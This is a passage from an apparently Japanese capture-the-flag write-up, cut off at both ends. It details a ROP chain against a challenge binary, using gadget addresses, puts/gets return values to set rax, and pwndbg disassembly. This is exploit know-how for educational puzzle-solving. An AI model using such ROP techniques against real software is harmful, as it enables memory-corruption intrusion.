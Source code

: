 がある(0x404010はstdout@got)。raxをputsにするというのが当面の方針となる。

さて、バイナリ中でraxを変更できるガジェットはいくつかあるが、使ったのは次のもの

```
0x401157: add eax, 0x00002ECB ; add  [rbp-0x3D], ebx ; nop ; ret ;
```

しかし、raxを正確にputsにしたいため、このガジェットでは0x2ecbの倍数しか設定できず不十分。そこでputsの返り値を使う。putsは表示した文字数分raxに入れて返すので、あまりの分を出力し、残りをガジェットで合わせれば良い。

```
puts@plt==0x401060
0x401060 / 0x2ecb = 0x15e
0x401060 % 0x2ecb = 0x16d6
```

もちろん、0x16d6文字ちょうどの文字列が存在しているわけはないので、自分で作る必要がある。幸い、getsは書き込みが正常に行われるとそこへのポインタを返すので、次のようなROPペイロードを送ると、raxに0x401060を設定できる。

```
gets(後で0x16d6分入力する)
puts
# rax == 0x16d6
0x401157 # add eax, 0x00002ECB ; add  [rbp-0x3D], ebx ; nop ; ret ;
0x401157
...
0x401157 (0x15e回入れる)
```

しかしこの方法にも問題があり、書き込む先のバッファがrdiで指定されるため、自由に設定できないという点である（設定できるならそもそもこんな回りくどいことはしない）。

何かしらの関数からretしたとき、$rdi$がwritableな領域にあるかどうかチェックを行うと、mainから帰るとき、

```
*RDI  0x7ffff7fb0720 (_IO_stdfile_0_lock) ◂— 0
```

となっており、これはlibcのrwな領域であった。つまり、先程のROPペイロードをmainから帰るときに行えば良い。

が、更にこの方法にも問題がある。領域はstdinのlockを指し示しているせいで、書き込んでしまうと次回のlockで死んでしまい、書き込むことができなくなるという点である。そこで、rdi全体を書き換えることはできなくても、下位バイトだけでもずらせないかとROPガジェットを探すと、ediやdi,dilレジスタにも視野を広げる必要があるが次のガジェットが見つかった。

```
pwndbg> x/5i 0x4010e9
   0x4010e9 <deregister_tm_clones+25>:  rex
   0x4010ea <deregister_tm_clones+26>:  add    dil,dil
   0x4010ed <deregister_tm_clones+29>:  loopne 0x401155 <__do_global_dtors_aux+21>
   0x4010ef <deregister_tm_clones+31>:  nop
   0x4010f0 <deregister_tm_clones+32>:  ret
pwndbg> x/5i 0x401155
   0x401155 <__do_global_dtors_aux+21>: inc    esi
   0x401157 <__do_global_dtors_aux+23>: add    eax,0x2ecb
   0x40115c <__do_global_dtors_aux+28>: add    DWORD PTR [rbp-0x3d],ebx
   0x40115f <__do_global_dtors_aux+31>: nop
   0x401160 <__do_global_dtors_aux+32>: ret
```

このガジェットを2回実行すると、
